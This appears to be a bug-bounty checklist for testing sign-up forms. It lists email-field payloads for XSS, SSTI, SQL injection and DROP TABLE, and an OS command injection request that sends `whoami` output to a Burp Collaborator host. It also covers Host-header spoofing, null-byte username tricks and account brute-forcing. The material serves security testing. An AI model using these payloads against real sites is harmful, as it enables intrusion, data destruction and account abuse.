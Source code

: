 - Gmail treats `me@gmail.com` and `me+1@gmail.com` as **ONE EMAIL**. We can use this to create Multi-Account on other platform.
- If There Is Google's ReCAPTCHA Try To Configure TLS Pass Through Of Burp Suite e.g.   .*google.com.*

```
Steps to produce :-
1 - Go To Burp Suite Project Configurations
2 - Go To TLS Pass Through
3 - Click Add Then Enter
  .*google.com.*
```

- Try to SIgn Up with Existing Email, Sometimes Authorization Token Will Reflect In Response
- Try:

```
admin@gmail.com@company.com
me+(@gmail.com)@company.com
"me@gmail.com"@company.com
 "<me@gmail.com>"@company.com
"me@gmail.com;"@company.com
"me@gmail.com+"@company.com
admin@googlemail.com@company.com
me+(@googlemail.com)@company.com
"me@googlemail.com"@company.com
 "<me@googlemail.com.com>"@company.com
"me@googlemail.com;"@company.com
"me@googlemail.com+"@company.com
me+(<script>alert(0)</script>)@gmail.com
me(<script>alert(0)</script>)@gmail.com
me@gmail(<script>alert(0)</script>).com
"<script>alert(0)</script>"@gmail.com
"<%= 7 * 7 %>"@gmail.com
me+(${{7*7}})@gmail.com
"' OR 1=1 -- '"@gmail.com
"me); DROP TABLE users;--"@gmail.com
%@gmail.com
me@id.collaborator.net
me@[id.collaborator.net]
user(;me@id.collaborator.net)@gmail.com
me@id.collaborator.net(@gmail.com)
me+(@gmail.com)@id.collaborator.net
<me@id.collaborator.net>user@gmail.com
```

- Sometimes They Ping Your Host Before Sending A Mail So Try To Sign Up By Using Burp Collaborator Mail Address with Injection OS Command To Get RCE.

```
firstname=I&lastname=am&email=me@`whoami`.id.collaborator.net&password=********&captcha=Random&token=CSRF
```

- If Company Accepted admin@company.com As Email Address But You Can't Activate It , Try To Spoof Host Header e.g X-Forwarded-Host OR X-Host
- Try To Insert SSTI Payloads e.g. `{{7*7}}` , `{7*7}` OR `${7*7}` In Username, First Name OR Last Name.
- Try To Insert `<%` In Username , First Name OR Last Name , So If `<%` Reflected In Email Body Try To Inject `<%= 7 * 7 %>` To Get SSTI.
- Try To Set Your Name , First Name , Last Name etc As TRUE, NULL, UNDEFINED etc
- Try To Insert Invisible Range %00 To %FF in Your Email OR Username e.g. Victim's Username is bob , You Can't Register it So Use bob%00 OR %01bob
- Try To Insert Large String 50.000+ Characters OR Numbers in POST Parameters To Cause Errors Exposing Sensitive Information
- Try To Set Password e.g. %01%E2%80%AEalert%0D%0A Then Try To Log In Only Using %01 , Log In Without CRLF And Is trela Accepted Instead Of alert ?
- Try To Do Brute Force To Create Multi Accounts OR Enumerate Email Addresses If The Company Doesn't Send Activation Link To Your Account
- Try To Insert SQLi Payloads e.g. ' AND '1' = '2 OR ";WAITFOR DELAY '0.0.20'--OR Blind XSS In User-Agent
- 